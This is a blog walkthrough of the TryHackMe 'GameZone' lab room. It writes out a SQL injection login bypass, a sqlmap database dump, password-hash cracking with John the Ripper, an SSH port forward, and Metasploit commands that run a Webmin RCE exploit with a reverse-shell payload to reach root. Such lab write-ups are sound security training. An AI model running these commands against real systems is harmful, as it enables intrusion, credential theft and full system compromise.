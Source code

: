 ```yaml
---
title: "TryHackMe - GameZone - Walkthrough"
date: 2020-12-01T07:34:30-04:00
categories:
  - blog
tags:
  - learning
  - gamezone
  - tryhackme
  - walkthrough
---
```


This is a walkthrough for the [TryHackMe][thm] room: [GameZone][gz]. Let’s get started!

# Deploy the Machine
Deploy the machine and verify access through the website. Right away, we can answer our first question. You can do a reverse image search on the image they describe for the first answer, or if you know what game the character is from you can Google the name!

# Obtain access via SQLi
This task is pretty simple. Let’s just follow along.

Enter `' or 1=1 -- -` as our username and leave the password blank. We get redirected to a page and that is our answer!

![g1](/assets/images/thm/gz/g1.webp)

# Using SQLMap
Here we are going to use SQLMap to exploit this form on the “Game Zone Portal” page.

Let’s start BurpSuite in order to intercept a request. Make sure you have your proxy turned on and intercept on, then enter anything into the search field.

![g2](/assets/images/thm/gz/g2.png)

Let’s copy that request into a `.txt` file so we can pass it into SQLMap later.

We can now format our SQLMap command:

`sqlmap -r request.txt --dbms=mysql --dump`

Run that command and SQLMap will begin testing different methods.

Once complete, we see the output of two tables. We can grab the next 3 answers from this output.

![g3](/assets/images/thm/gz/g3-1.png)

# Cracking a password with JohnTheRipper
Make sure to copy the hash to a file, so we can run JohnTheRipper against it.

The format for JohnTheRipper is the following:

```bash
john hash.txt --wordlist=$PATH/rockyou.txt --format=Raw-SHA256
```
Run this and we get our de-hashed password!

![g4](/assets/images/thm/gz/g4.webp)

Now ssh into the machine and find the user flag!

![g5](/assets/images/thm/gz/g5.png)

# Exposing Services with Reverse SSH Tunnels
Now let’s run ss to get socket information. Run the following on the victim machine:

`ss -tulpn`

We need to expose port 10000 to us. We can run the following command in a new terminal window on our local machine:

`ssh -L 10000:localhost:10000 <username>@<victim_ip>`

From here we can open up a new browser tab and navigate to `localhost:10000`

**NOTE:** Make sure to turn your BurpSuite proxy off if the page isn’t loading!

![g6](/assets/images/thm/gz/g6-1.webp)

Login with our already known credentials to get the CMS version.

# Privilege Escalation with Metasploit
We can load up Metasploit on our attack machine (`msfconsole`) and search for an exploit:

`search webmin 1.58`

We find a Remote Code Execution (RCE) exploit! Let’s try that.

![g7](/assets/images/thm/gz/g7.webp)

```bash
use 1
options
set rhosts localhost
set username <username>
set password <password>
set ssl false
set lhost tun0
show payloads
set payload cmd/unix/reverse
run
```
The session was created in the background, so lets open it: `sessions 1`

`whoami`
`cat /root/root.txt`

![g8](/assets/images/thm/gz/g8.png)

# Review
That was a really fun room! It covered SQL injection, hash cracking, reverse SSH tunnels, and metasploit! I really enjoyed this room. Granted, it was easy and walked you through most of it, but we still learned a lot in the process!

# References
[TryHackMe][thm] | [GameZone][gz]

[thm]: https://tryhackme.com
[gz]: https://tryhackme.com/why-subscribe?roomCode=gamezone